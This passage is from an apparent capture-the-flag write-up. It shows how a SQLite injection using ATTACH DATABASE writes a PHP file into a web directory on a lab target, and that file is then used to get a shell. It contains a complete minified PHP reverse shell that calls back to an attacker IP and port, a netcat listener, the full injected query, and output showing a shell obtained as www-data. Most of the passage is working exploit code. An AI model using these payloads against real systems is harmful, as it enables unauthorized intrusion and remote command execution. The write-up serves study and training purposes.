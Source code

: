 We prepare the listener on the attacker machine and we run the script to open the created file. On two different shells:

	root@pentestbox:~# nc -lnvp 9119
	listening on [any] 9119 ...

	root@pentestbox:~# python break_rc4.py 32mbgmnqsu2rs11jcnbepejcis /dev/d9e28afcf0b274a5e0542abb67db0784/db.php

Nonetheless, it look like that **nc** dies instantly as the connection is created. Therefore, it looks necessary to use another shell. For this purpose, we have chosen the [Pentest Monkey's PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), but it has been reduced in size by suppressing comments, shortening names and removing unnecessary features:

	<?php set_time_limit(0);$i="10.10.16.9";$p=9119;$cs=1400;$sh="/bin/sh -i";$d=null;$e=null;$s=fsockopen($i,$p,$en,$es,30);$ds=array(0=>array("pipe","r"),1=>array("pipe","w"),2=>array("pipe","w"));$pr=proc_open($sh,$ds,$pp);if(!is_resource($pr)){exit(1);}stream_set_blocking($pp[0],0);stream_set_blocking($pp[1],0);stream_set_blocking($pp[2],0);stream_set_blocking($s,0);while(1){if(feof($s)){break;}if(feof($pp[1])){break;}$r=array($s,$pp[1],$pp[2]);$n=stream_select($r,$d,$e,null);if(in_array($s,$r)){$in=fread($s,$cs);fwrite($pp[0],$in);}if(in_array($pp[1],$r)){$in=fread($pp[1],$cs);fwrite($s,$in);}if(in_array($pp[2],$r)){$in=fread($pp[2],$cs);fwrite($s,$in);}}fclose($s);fclose($pp[0]);fclose($pp[1]);fclose($pp[2]);proc_close($pr); ?>

Again, lets run both nc and our script: 

	root@pentestbox:~# nc -lnvp 9119
	listening on [any] 9119 ...

	root@pentestbox:~# python break_rc4.py 32mbgmnqsu2rs11jcnbepejcis {REQUEST_HERE_ENCODED}{PAYLOAD_HERE_DOUBLE_ENCODED}
	<html>
	<head></head>
	<body>
	Opened database successfully
	Query : SELECT * FROM books WHERE id=1;ATTACH DATABASE './d9e28afcf0b274a5e0542abb67db0784/db.php' AS d; CREATE TABLE d.p (pp TEXT); INSERT INTO d.p (pp) VALUES ('<?php set_time_limit(0);$i="10.10.16.9";$p=91;$cs=1400;$sh="/bin/sh -i";$d=null;$e=null;$s=fsockopen($i,$p,$en,$es,30);$ds=array(0=>array("pipe","r"),1=>array("pipe","w"),2=>array("pipe","w"));$pr=proc_open($sh,$ds,$pp);if(!is_resource($pr)){exit(1);}stream_set_blocking($pp[0],0);stream_set_blocking($pp[1],0);stream_set_blocking($pp[2],0);stream_set_blocking($s,0);while(1){if(feof($s)){break;}if(feof($pp[1])){break;}$r=array($s,$pp[1],$pp[2]);$n=stream_select($r,$d,$e,null);if(in_array($s,$r)){$in=fread($s,$cs);fwrite($pp[0],$in);}if(in_array($pp[1],$r)){$in=fread($pp[1],$cs);fwrite($s,$in);}if(in_array($pp[2],$r)){$in=fread($pp[2],$cs);fwrite($s,$in);}}fclose($s);fclose($pp[0]);fclose($pp[1]);fclose($pp[2]);proc_close($pr); ?>');-- 
	</body>
	</html>


Then, let's call the created page:

	root@pentestbox:~# python break_rc4.py 32mbgmnqsu2rs11jcnbepejcis /dev/d9e28afcf0b274a5e0542abb67db0784/db.php

	root@pentestbox:~# nc -lnvp 9119
	listening on [any] 9119 ...
	connect to [10.10.16.9] from (UNKNOWN) [10.10.10.129] 38780
	/bin/sh: 0: can't access tty; job control turned off
	$ whoami
	www-data
